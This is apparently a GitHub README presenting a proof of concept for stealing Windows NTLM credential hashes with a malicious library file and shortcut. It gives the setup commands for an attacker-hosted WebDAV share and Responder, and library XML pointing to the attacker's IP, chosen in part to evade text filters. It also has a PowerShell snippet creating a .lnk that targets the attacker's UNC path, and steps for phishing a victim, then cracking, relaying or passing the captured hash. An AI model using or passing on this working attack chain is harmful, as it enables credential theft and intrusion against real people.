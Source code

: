 # lnk-with-Webdav-POC
Windows Defender and Avira AV Does not flag the Lnk as malicious.
### Tested on
```
Windows 10 Pro
BuildNumber     : 19045
Version         : 10.0.19045

Windows 11
BuildNumber     : 22000
Version         : 10.0.22000
```
 ## Youtube Demo 📹
 https://youtu.be/-sw7Sdkfh-U
### Requirements ⚙️
* Python3

### Setup 🛠️
<b> On the kali linux attacker machine, on the terminal</b> <br />
```
pip3 install wsgidav
mkdir /home/kali/webdav

Running the wsgidav hosted on /home/kali/webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/ 
```
<b> On the kali linux attacker machine, on a new tab of the terminal. run responder to capture NTLM hash</b> <br />
```
responder -I eth0 -dwFP -v
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c1f59930-d518-4fa1-9cd2-4f42799c80d5)
Ensure that SMB server is on
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/1715fa7b-bf04-4c1a-97e1-7e967ddab24f)

### On windows attacker machine

## Creating the Window library file to connect to our webdav share. 
This file can be used as a virtual containers to carry our payloads to avoid suspicions. 
we can use Notepad or any text editor could also be used to create the file.

We can save the file HRFolder.
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c660329d-b3db-4fca-be8a-5f429461f8f4)

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations. Let's build the XML code by adding and explain the tags. We can refer to the Library Description Schema6 for further information. We'll begin by adding the XML and library file's format version.
The listing below contains the namespace7 for the library file. This is the namespace for the version of the library file format starting from Windows 7. The listing also contains the closing tag for the library description. All of the following tags we cover will be added inside the libraryDescription tags.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
</libraryDescription>
```
Next, we'll add two tags providing information about the library. The name tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. 
We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. 
We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". 
The version tag can be set to a numerical value of our choice, for example, 7.
```
<name>@windows.storage.dll,-34582</name>
<version>7</version>
```
Name and Version Tags of the Library

Next, we'll add the isLibraryPinned11 tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. 
The next tag we'll add is iconReference, which determines what icon is used to display the library file. We must specify the value in the same format as the name element. 
We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon.
```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1002</iconReference>
```


The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList, tag which contains a list of search connectors defined by searchConnectorDescription. 
Search connectors are used by library files to specify the connection settings to a remote location. 

We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. 
For this example we only specify one. If we used more than 1 folder, it will display contents from other folders as well making it look more legitimate.
Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation tag with the value set to true. 
This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.

**The most important tag is url,which we need to point to our previously-created WebDAV share over HTTP. It is contained within the simpleLocation tags, which we can use to specify the remote location in a more user-friendly way as the normal locationProvider element.**
```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<your webdav share url></url></simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```
The entire XML would look something like this
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>7</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.1.67</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
## Creating the Windows shortcut payload using powershell
Run this on powershell to create the shortcut on your desktop, change the $shortcutPath accordingly 
```
$targetPath = "\\192.168.1.67\test"
$shortcutPath = "C:\Users\JJ\Desktop\HRdocuments.lnk"

# Create a WScript.Shell object 
$shell = New-Object -ComObject WScript.Shell
 # Create a shortcut object 
$shortcut = $shell.CreateShortcut($shortcutPath)
 # Set the target path of the shortcut
 $shortcut.TargetPath = $targetPath
 # Save the shortcut 
$shortcut.Save()
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/455d1c59-c587-49b1-8085-87cbf52687ef)

### Next, we could move the .lnk inside the webdav share directory
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/eb2f568c-06d1-4caa-a248-06d89dbd132a)

# Send the Windows library file to the victim, for e.g phishing email.
Giving instructions for the user to click on the hr folder, and the windows shortcut.
The responder should be able to harvest the credentials hash successful.
# We can then either crack the hash for the user password or we can relay them to a tool like ntlmrelayx, or pass the hash directly for authentication as potential exploitations
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/154a6e66-51cb-4b7c-a0cc-233959918bcd)
_responder's captured credentials NTLMv2_

## Using hashcat to crack the NTLM hash recovered
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/2c926b5a-bb79-45b6-820b-650dd96d8df7)
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/b9b70946-b037-49dc-a334-d86cf4dcd92a)


